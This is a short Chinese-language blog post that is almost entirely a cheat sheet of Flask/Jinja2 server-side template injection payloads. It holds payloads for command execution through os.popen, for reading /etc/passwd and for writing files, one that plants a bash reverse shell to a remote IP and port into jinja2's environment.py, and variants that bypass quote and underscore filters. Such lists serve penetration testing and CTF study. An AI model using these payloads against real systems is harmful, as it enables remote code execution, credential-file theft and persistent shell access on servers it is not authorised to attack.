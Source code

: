 ﻿---
layout:     post
title:      flask-ssti
subtitle:   模板注入
date:       2020-04-15
author:     BY Diego
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - python
    - SSTI
---

## 模板
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200217115605356.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20200217115615227.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70)
## payload
**python3**
```python3
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
**python2**
```python
#注入变量执行命令详见 http://www.freebuf.com/articles/web/98928.html
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

**jinja2**
```py
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }}
```

**绕过**

无单引号
>{{().\_\_class__.\_\_bases__.\_\_getitem__(0).\_\_subclasses__().pop(40)(request.args.path).read()}}&path=/tmp/cmd.py

下划线绕过
>?name={{\'\'[request.args.class][request.args.mro][2][request.args.subclasses]\()\[40]('/etc/passwd').read()}}&class=\_\_class__&mro=\_\_mro__&subclasses=\_\_subclasses__
